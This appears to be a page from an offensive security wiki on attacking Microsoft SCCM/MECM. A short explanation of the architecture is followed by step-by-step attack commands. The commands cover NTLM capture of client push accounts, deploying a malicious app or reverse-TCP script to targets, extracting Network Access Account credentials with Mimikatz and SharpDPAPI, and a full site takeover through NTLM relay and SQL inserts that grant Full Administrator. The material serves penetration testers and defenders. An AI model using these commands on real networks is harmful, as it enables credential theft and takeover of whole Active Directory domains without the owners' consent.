

# SCCM / MECM

## Theory

The **System Center Configuration Manager** (SCCM), now known as **Microsoft Endpoint Configuration Manager** (MECM), is a software developed by Microsoft to help system administrators manage the servers and workstations in large Active Directory environments. It provides lots of features including remote control, patch management, task automation, application distribution, hardware and software inventory, compliance management and security policy administration.

### Topology

SCCM operates in a Client-Server architecture deployed on a "site", representing the SCCM environment. Each client (server or workstation) has an agent installed used to communicate with its SCCM server, the [Primary Site server](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/design-a-hierarchy-of-sites#BKMK\_ChoosePriimary).

Clients are logically grouped into [boundary groups](https://learn.microsoft.com/en-us/mem/configmgr/core/servers/deploy/configure/boundary-groups), that are a set of network locations allowing clients to communicate with the SCCM closest resources in an SCCM site.

Boundary groups also allow for [automatic site assignment](https://learn.microsoft.com/en-us/mem/configmgr/core/clients/deploy/assign-clients-to-a-site#automatic-site-assignment) for discovered clients based on their network location to attach them to the right site and ensure they receive the right configuration.


Each SCCM site is identified by a three-character code to distinguish it in an SCCM hierarchy. This is needed at the client registration process.&#x20;


The primary site server manages the clients (like distributing software updates) and can have child servers attached to it ([secondary sites](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/design-a-hierarchy-of-sites#BKMK\_ChooseSecondary)), generally for scalability purpose.

Between the site server and clients sites [the management point](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-site-system-servers-and-site-system-roles#management-point) which is an SCCM server role allowing to provide clients with necessary policies and configuration to communicate with the site server and receive configuration data from them.

To get software packages, updates, OS images, etc. clients request the [distribution point](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-site-system-servers-and-site-system-roles#distribution-point), which is the SCCM component that hosts and distributes them.&#x20;

All information about the clients, software updates, hardware and software inventories, configuration settings of the site, etc. are stored in a Microsoft SQL Server (MSSQL) instance, known as the [site database server](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-site-database). This database is used by the site server to retrieve and store information about the managed devices and is also used by the management point to retrieve policies and configuration information needed by the SCCM clients.

In addition, another component called the [SMS Provider](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider#about), provides a set of interfaces between the site server and the site database to give the clients needed information like available software updates and allow them communicate information like status of a software deployment and inventory data to store in the site database.

<figure><figcaption><p>Typical multi-site architecture</p></figcaption></figure>

### Deployment types

When SCCM is installed in an Active Directory, the clients can be deployed on the workstations by six different ways:

* Client push installation (default)
* Software update-based installation
* Group Policy installation
* Manual installation
* Logon script installation
* Package and program installation

<details>

<summary>Client push installation</summary>

The first way of deploying SCCM is the **Client push installation** method, which is the default one and the least secure.&#x20;

This installation will use "client push accounts". They are service accounts with local administrative rights on the assets where SCCM will have to deploy some stuff. The system administrator creates groups of endpoints and for each of those, one "client push account". For each group, only one "client push account" can authenticate with administrator rights on the assets of this group. Thus, if an account is compromised, only the members of the corresponding group can be compromised in turn.

When the SCCM deployment is launched, it will basically try to authenticate with each client push accounts on each asset, and if the authentication fails, SCCM will try the next account in line. When the authentication succeeds, it moves to the following asset, and so on until the deployment is complete.

SCCM deployment via **Client push installation** is service accounts credentials spraying in a nutshell.

_Nota bene, there is a_ [_feature_](https://learn.microsoft.com/en-us/mem/configmgr/core/clients/deploy/deploy-clients-to-windows-computers#configure-the-site-to-automatically-use-client-push-for-discovered-computers) _(not enabled by default) allowing for automatic client push installation on all discovered clients in a boundary group in an SCCM site._

</details>

## Practice

### Client push installation

With a compromised machine in an Active Directory where SCCM is deployed via **Client Push Accounts** on the assets, it is possible to have the "Client Push Account" authenticate to a remote resource and, for instance, retrieve an NTLM response (i.e. [NTLM capture](ntlm/capture.md)). The "Client Push Account" usually has local administrator rights to a lot of assets.


In some case, the "Client Push Accounts"  could even be part of the Domain Admins group, leading to a complete takeover of the domain.


In order to retrieve the Client Push Account's authentication, all local admins must be removed from the compromised host, and a listener can be started on it with [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (C# or Powershell).

```powershell
# 1. Remove all the local Administrators on the compromised machine
net user <username> /delete

# 2. Listen for authentication with Inveigh
.\Inveigh.exe -Challenge 1122334455667788
```

Once the capturing/relaying listeners are started, the tester can wait for the Client Push Accounts to authenticate automatically. Hopefully, NTLMv1 will be used, allowing for easier NTLM cracking. There are other alternatives to cracking the response, like [relaying the authentication](ntlm/relay.md).

### Applications and scripts deployment

With sufficient rights on the central SCCM server (sufficient rights on WMI), it is possible to deploy applications or scripts on the Active Directory machines with [PowerSCCM](https://github.com/PowerShellMafia/PowerSCCM) (Powershell).

```powershell
# Create a SCCM Session via WMI with the Site Code
Find-SccmSiteCode -ComputerName SCCMServer
New-SccmSession -ComputerName SCCMServer -SiteCode <site_code> -ConnectionType WMI

# Retrieve the computers linked to the SCCM server
Get-SccmSession | Get-SccmComputer

# Create a computer collection
Get-SccmSession | New-SccmCollection -CollectionName "collection" -CollectionType "Device"

# Add computers to the collection
Get-SccmSession | Add-SccmDeviceToCollection -ComputerNameToAdd "target" -CollectionName "collection"

# Create an application to deploy
Get-SccmSession | New-SccmApplication -ApplicationName "evilApp" -PowerShellB64 "<powershell_script_in_Base64>"

# Create an application deployment with the application and the collection previously created
Get-SccmSession | New-SccmApplicationDeployment -ApplicationName "evilApp" -AssignmentName "assig" -CollectionName "collection"

# Force the machine in the collection to check the application update (and force the install)
Get-SccmSession | Invoke-SCCMDeviceCheckin -CollectionName "collection"
```

If deploying applications fails, deploying CMScripts is an alternative, which requires a "Configuration Manager" drive on the SCCM server.&#x20;

This [pull request](https://github.com/PowerShellMafia/PowerSCCM/pull/6) on PowerSCCM can be used to do everything in one command. It uses the script `configurationmanager.psd1` created by Microsoft, usually installed on SCCM servers.

```powershell
# Create a CM drive if it doesn't already exist and deploy a CMScript on a target
New-CMScriptDeployement -CMDrive 'E' -ServerFQDN 'sccm.domain.local' -TargetDevice 'target' -Path '.\reverseTCP.ps1' -ScriptName 'evilScript'
```

### SCCM credentials extraction with DPAPI

When non-domain joined computers need to retrieve software from a SCCM server, the SCCM endpoint will deploy **Network Access Accounts (NAA)** on them. The NAAs do nothing on the hosts but access resources across the network.


Normally, the NAA account [should](https://docs.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/accounts#network-access-account) be configured with the least privilege and does not have interactive logon rights. But it appears that sometimes domain accounts are used for this task.


The NAA policy, including the NAA's credentials, is sent by the SCCM server and stored on the client machine, encrypted via DPAPI with SYSTEM's master key. With a SYSTEM (i.e. local admin) access on the target, it is possible to decipher the policy and retrieve the credentials.


It appears that even after changing the NAA account or uninstalling the SCCM client, the credentials are still present on the disk.




From UNIX-like systems, [SystemDPAPIdump.py](https://github.com/fortra/impacket/pull/1137) (Python) can be used to decipher the WMI blob via DPAPI and retrieve the stored credentials. Additionally, the tool can also extract SYSTEM DPAPI credentials.

```bash
SystemDPAPIdump.py -creds -sccm 'DOMAIN/USER:Password'@'target.domain.local'
```



With an elevated session on the target machine, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) (C#) can be used to extract the SCCM credentials on the host.

```powershell
.\SharpDPAPI.exe SCCM
```

The tool [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can also be used for the same purpose with [`privilege::debug`](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) , [`token::elevate`](https://tools.thehacker.recipes/mimikatz/modules/token/elevate) and [`dpapi::sccm`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/sccm).

```batch
.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # dpapi::sccm
```



### Network Access Account de-obfuscation

A computer account has the ability to register itself with the SCCM server and request the encrypted NAA policies, decrypt them, de-obfuscate them and retrieve the NAA's (Network Access Account) credentials in them.


Normally, the NAA account [should](https://docs.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/accounts#network-access-account) be configured with the least privilege and does not have interactive logon rights. But it appears that sometimes domain accounts are used for this task.


The first step consists in controlling a computer account. One can be [created](domain-settings/machineaccountquota.md#create-a-computer-account) if the [Machine Account Quota](domain-settings/machineaccountquota.md) attribute is greater than 0.


[machineaccountquota.md](domain-settings/machineaccountquota.md)


#### 1. Enroll and retrieve the NAA policy

The attack can then be performed with [sccmwtf](https://github.com/xpn/sccmwtf) (Python). The new client to spoof doesn't need to be the previously created computer account (useful if the attacker already controls an enrolled existing computer account).

The positional arguments are as follows:

* Spoof Name&#x20;
* Spoof FQDN&#x20;
* Target SCCM&#x20;
* Computer account username&#x20;
* Computer account password


```bash
sccmwtf.py "fakepc" "fakepc.domain.local" 'SCCM-Server' 'DOMAIN\ControlledComputer$' 'Password123!'
```



The tool author ([Adam Chester](https://twitter.com/\_xpn\_)) warns not to use this script in production environments.


#### 2. Retrieve the credentials

Then, on a Windows machine, the two blobs (`NetworkAccessUsername` and `NetworkAccessPassword`) can be retrieved in plaintext by indicating only the hexadecimal part.

```powershell
.\policysecretunobfuscate.exe <blob_hex_1>
.\policysecretunobfuscate.exe <blob_hex_2>
```

### SCCM Site Takeover

The primary site server's computer account is member of the local Administrators group on the site database server and on every site server hosting the "SMS Provider" role in the hierarchy (See [SCCM Topology](sccm-mecm.md#topology)).&#x20;

> The user account that installs the site must have the following permissions:
>
> * **Administrator** on the following servers:
>   * The site server
>   * Each SQL Server that hosts the **site database**
>   * Each instance of the **SMS Provider** for the site
> * **Sysadmin** on the instance of SQL Server that hosts the site database
>
> _(source:_ [_Microsoft.com_](https://learn.microsoft.com/en-us/mem/configmgr/core/servers/deploy/install/prerequisites-for-installing-sites)_)_

This means that it is possible to obtain administrative access on the site database server by relaying a NTLM authentication coming from the primary site server, for example by coercing an automatic client push installation from it, and granting full access on the SCCM site to a controlled user.


For more details about how this attack works, refer to the article "[SCCM Site Takeover via Automatic Client Push Installation](https://posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1)" by [Chris Thompson](https://mobile.twitter.com/\_mayyhem).



Some requirements are needed to perform the attack:&#x20;

* automatic site assignment and automatic site-wide [client push installation](sccm-mecm.md#client-push-installation-1) are enabled
* fallback to NTLM authentication is enabled (default)
* the hotfix [KB15599094](https://learn.microsoft.com/fr-fr/mem/configmgr/hotfix/2207/15599094) not installed (it prevents the client push installation account to perform an NTLM connection to a client)
* PKI certificates are not required for client authentication (default)
*   &#x20;either:

    * MSSQL is reachable on the site database server

    OR

    * SMB is reachable and SMB signing isn’t required on the site database server
* knowing the three-character site code for the SCCM site is required (step 3 below)
* knowing the NetBIOS name, FQDN, or IP address of a site management point is required
* knowing the NetBIOS name, FQDN, or IP address of the site database server is required


#### 1. Retrieve the controlled user SID&#x20;

The first step consists in retrieving the hexadecimal format of the user's SID (Security IDentifier) to grant "Full Administrator SCCM role" to, on the site database server. The hex formatted SID is needed in a part below: [#4.-obtain-an-sql-console](sccm-mecm.md#4.-obtain-an-sql-console "mention").



From UNIX-like systems, the Samba utility named [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) can be used for this purpose.

```bash
rpcclient -c "lookupnames USER" $TARGET_IP
```

Impacket's [lookupsid](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py) (Python) can also be used to retrieve the user's SID.

```bash
lookupsid.py "$DOMAIN"/"$USERNAME":"$PASSWORD"@"$TARGET_IP_OR_NAME"
```

The returned SID value is in canonical format and not hexadecimal, [impacket](https://github.com/fortra/impacket/blob/34229464dab9ed4e432fdde56d14a916baaac4db/impacket/ldap/ldaptypes.py#L48) can be used to convert it as follows.


```python
from impacket.ldap import ldaptypes
sid=ldaptypes.LDAP_SID()
sid.fromCanonical('sid_value')
print('0x' + ''.join('{:02X}'.format(b) for b in sid.getData()))
```




From Windows systems, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#) can be used for this purpose.

```
# this should be run on the windows SCCM client as the user (no need for admin privileges here)
.\SharpSCCM.exe get user-sid
```



#### 2. Setup NTLM relay server

The target of the [NTLM relay attack](ntlm/relay.md) must be set to the site database server, either on the MS-SQL (port `1433/tcp`), or SMB service (port `445/tcp`) if the relayed user has admin privileges on the target. The rest of this page is focusing on relaying the authentication on the MS-SQL service.



From UNIX-like systems, [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) (Python) script can be used for that purpose. In the examples below, the `-socks` option is used for more versatility but is not required.

```bash
# targetting MS-SQL
ntlmrelayx.py -t "mssql://siteDatabase.domain.local" -smb2support -socks

# targeting SMB
ntlmrelayx.py -t "siteDatabase.domain.local" -smb2support -socks
```



From Windows systems, [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) (Powershell) can be used as an alternative to [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py), however it doesn't feature the same SOCKS functionality, need in the steps detailed below, meaning the exploitation from Windows system will need to be adapted.



Fore more insight on NTLM relay attacks and tools options, see the corresponding page on The Hacker Recipes: [relay.md](ntlm/relay.md "mention").&#x20;

#### 3. Authentication coercion

The primary site server's authentication can be coerced via automatic client push installation targeting the relay server with [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#). For more information, see the corresponding article "[Coercing NTLM authentication from SCCM](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)" by [Chris Thompson](https://mobile.twitter.com/\_mayyhem). Alternatively, the server's authentication could be coerced with other, more common, coercion techniques ([PrinterBug](print-spooler-service/printerbug.md), [PetitPotam](mitm-and-coerced-authentications/ms-efsr.md), [ShadowCoerce](mitm-and-coerced-authentications/ms-fsrvp.md), [DFSCoerce](mitm-and-coerced-authentications/ms-dfsnm.md), etc.).



From UNIX-like systems, authentication can be coerced through [PrinterBug](print-spooler-service/printerbug.md), [PetitPotam](mitm-and-coerced-authentications/ms-efsr.md), [ShadowCoerce](mitm-and-coerced-authentications/ms-fsrvp.md), [DFSCoerce](mitm-and-coerced-authentications/ms-dfsnm.md), etc. (not based on triggering the client push installation).

There isn't any UNIX-like alternative to the `SharpSCCM.exe invoke client-push` feature (yet).




```powershell
.\SharpSCCM.exe invoke client-push -mp "SCCM-Server" -sc "<site_code>" -t "attacker.domain.local"
```




The rest of this page is focusing on relaying the authentication on the MS-SQL service.

#### 4. Obtain an SQL console

If the NTLM relay attack is a success and was targeting the MS-SQL service with SOCKS support, an SQL console could be obtained on the SCCM database through the opened socks proxy. From UNIX-like systems, [Impacket](https://github.com/fortra/impacket)'s [mssqlclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) (Python) can be used for that purpose.

```bash
proxychains mssqlclient.py "DOMAIN/SCCM-Server$"@"siteDatabase.domain.local" -windows-auth
```

Once the console is obtained, the attack can proceed to granting the user full privileges by running the following commands in the SQL console.

<pre class="language-sql"><code class="lang-sql">--Switch to site database
<strong>use CM_&#x3C;site_code>
</strong>
--Add the SID, the name of the current user, and the site code to the RBAC_Admins table
<strong>INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (&#x3C;SID_in_hex_format>,'DOMAIN\user',0,0,'','','','','&#x3C;site_code>');
</strong>
--Retrieve the AdminID of the added user
<strong>SELECT AdminID,LogonName FROM RBAC_Admins;
</strong>
--Add records to the RBAC_ExtendedPermissions table granting the AdminID the Full Administrator (SMS0001R) RoleID for the “All Objects” scope (SMS00ALL), 
--the “All Systems” scope (SMS00001), 
--and the “All Users and User Groups” scope (SMS00004)
<strong>INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (&#x3C;AdminID>,'SMS0001R','SMS00ALL','29');
</strong><strong>INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (&#x3C;AdminID>,'SMS0001R','SMS00001','1');
</strong><strong>INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (&#x3C;AdminID>,'SMS0001R','SMS00004','1');
</strong></code></pre>

It is then possible to verify the new privileges on SCCM.

<pre><code># this should be run on the windows SCCM client as the user that was just given full administrative role to 
<strong>.\SharpSCCM.exe get site-push-settings -mp "SCCM-Server" -sc "&#x3C;site_code>"
</strong></code></pre>

Post exploitation via SCCM can now be performed on the network.


The tool author ([Chris Thompson](https://mobile.twitter.com/\_mayyhem)) warns that [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) is a PoC only tested in lab. One should be careful when running in production environments.&#x20;


## Resources
























